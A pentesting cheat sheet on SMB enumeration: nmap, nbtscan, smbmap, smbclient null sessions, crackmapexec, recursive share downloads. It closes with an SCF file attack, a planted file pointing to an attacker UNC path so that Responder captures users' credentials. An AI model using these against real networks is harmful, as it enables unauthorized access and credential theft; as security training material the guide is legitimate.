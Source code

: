 ```yaml
---
description: >-
  SMB stands for Server Message Block. It’s a protocol for sharing resources
  like files, printers, in general any resource which should be retreivable or
  made available by the server.
---
```


# PORT 139,445/tcp - SMB

## Introduction

It primarily runs on port 445 or port 139 depending on the server . It is actually natively available in windows, so windows users don’t need to configure anything extra as such besides basic setting up. In Linux however ,it is a little different. To make it work for Linux, you need to install a samba server because Linux natively does not use SMB protocol.

## Scanning the network

### Nmap

We can do a port scanner selecting the NetBIOS and SMB ports:

```text
nmap -v -p 139,445 -oG smb.nmap <ip-addr>/<mask>
grep "Up" smb.nmap | cut -d " " -f 2
```

### Nbtscan

We can scan for NetBIOS Service around the network in order to collect additional NetBIOS information like server names:

```text
sudo nbtscan -r <ip-addr>/<mask>
```

## Enumeration a target

### Nmap scripts

`Nmap` contains many useful NSE scripts that can be used to discover and enumerate SMB services. All these scripts are in the folder `/usr/share/nmap/scripts/`

```text
ls -l /usr/share/nmap/scripts/smb*
```

You can launch the script with the `--script` parameter:

```text
nmap -v -p 139,445 --script=<script> <ip-addr>
```

### Enum4linux

Enum4linux is an script that automatize some tasks:

```text
enum4linux -a [-u <user> -p <pass>"] <ip-addr>
```

### Shared Folders

There are some available `nmap` scripts that could help us in that work:

```text
nmap -p 139,445 -sV --script smb-\* <ip-addr>
```

`smbmap` will shows us available shares and permissions:

```text
smbmap -H <ip-addr>
#Example Output
[+] Guest session       IP: ip-addr:445   Name: ip-addr
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        anonymous                                               READ ONLY
        IPC$                                                    NO ACCESS       IPC Service (kenobi server (Samba, Ubuntu))
```

And we can connect to these shares with `smbclient`:

```text
smbclient //<ip-addr>/<share>                # Guest Session
smbclient //<ip-addr>/<share> -U "" -N       # Null Session
smbclient //<ip-addr>/<share> -U <user>      # Authenticated Session

# Older versions
smbclient //<ip-addr>/<share> --option='client min protocol=NT1'
```

To download recursively all the share you can use `smbget`:

```text
smbget -R smb://<ip-addr>/<share>
smbget -R smb://<ip-addr>/<share> -U <user>
```

Also you could enumerate shares with `crackmapexec`:

```text
crackmapexec smb <ip-addr> -u '' -p '' --shares #Null user
crackmapexec smb <ip-addr> -u 'username' -p 'password' --shares #Guest user
crackmapexec smb <ip-addr> -u 'username' -H '<HASH>' --shares #Guest user
```

Finally you can mount the share on your kali.

```text
sudo mount -t cifs -o vers=2.0,username=guest,password=guest //<ip-addr>/<share>
```

## Shell Command Files \(SCF\) attack

It is not new that SCF \(Shell Command Files\) files can be used to perform a limited set of operations such as showing the Windows desktop or opening a Windows explorer. However a SCF file can be used to access a specific UNC path which allows the penetration tester to build an attack. The code below can be placed inside a text file which then needs to be planted into a network share.

```text
[Shell]
Command=2
IconFile=\\<OUR.IP>\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```

Adding the **@** symbol in front of the filename will place the file on the top of the share drive. 

```text
Filename: @attack.scf
```

When the user will browse the share a connection will established automatically from his system to the UNC path that is contained inside the SCF file. Windows will try to authenticate to that share with the username and the password of the user, so we can capture it with Responder.

```text
responder -I eth0
```

{% embed url="https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/" %}



## References:

* [https://medium.com/@arnavtripathy98/smb-enumeration-for-penetration-testing-e782a328bf1b](https://medium.com/@arnavtripathy98/smb-enumeration-for-penetration-testing-e782a328bf1b)
* [https://book.hacktricks.xyz/pentesting/pentesting-smb\#port-139](https://book.hacktricks.xyz/pentesting/pentesting-smb#port-139)
* [http://carnal0wnage.attackresearch.com/2007/07/enumerating-user-accounts-on-linux-and.html](http://carnal0wnage.attackresearch.com/2007/07/enumerating-user-accounts-on-linux-and.html)



